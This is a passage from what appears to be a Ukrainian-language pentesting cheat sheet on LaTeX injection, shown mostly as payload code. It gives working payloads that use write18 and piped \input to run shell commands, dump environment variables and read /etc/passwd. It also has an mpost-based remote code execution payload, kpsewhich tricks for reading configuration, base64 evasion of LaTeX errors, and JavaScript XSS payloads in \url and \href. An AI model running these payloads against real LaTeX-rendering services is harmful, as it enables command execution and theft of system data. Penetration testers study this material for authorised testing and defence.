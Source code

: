 Вхідні дані команди будуть перенаправлені до stdin, використовуйте тимчасовий файл, щоб їх отримати.
```bash
\immediate\write18{env > output}
\input{output}

\input{|"/bin/hostname"}
\input{|"extractbb /etc/passwd > /tmp/b.tex"}

# allowed mpost command RCE
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}

# If mpost is not allowed there are other commands you might be able to execute
## Just get the version
\input{|"bibtex8 --version > /tmp/b.tex"}
## Search the file pdfetex.ini
\input{|"kpsewhich pdfetex.ini > /tmp/b.tex"}
## Get env var value
\input{|"kpsewhich -expand-var=$HOSTNAME > /tmp/b.tex"}
## Get the value of shell_escape_commands without needing to read pdfetex.ini
\input{|"kpsewhich --var-value=shell_escape_commands > /tmp/b.tex"}
```
Якщо ви отримали будь-яку помилку LaTex, розгляньте можливість використання base64, щоб отримати результат без поганих символів.
```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
\input{|"/bin/hostname"}
```
### Cross Site Scripting <a href="#cross-site-scripting" id="cross-site-scripting"></a>

Від [@EdOverflow](https://twitter.com/intigriti/status/1101509684614320130)
```bash
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```
## Ghostscript Injection

**Перевірте** [**https://blog.redteam-pentesting.de/2023/ghostscript-overview/**](https://blog.redteam-pentesting.de/2023/ghostscript-overview/)

## Посилання

- [https://notsosecure.com/data-exfiltration-formula-injection-part1](https://notsosecure.com/data-exfiltration-formula-injection-part1)
- [https://0day.work/hacking-with-latex/](https://0day.work/hacking-with-latex/)
- [https://salmonsec.com/cheatsheet/latex_injection](https://salmonsec.com/cheatsheet/latex_injection)
- [https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/](https://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

{{#include ../banners/hacktricks-training.md}}
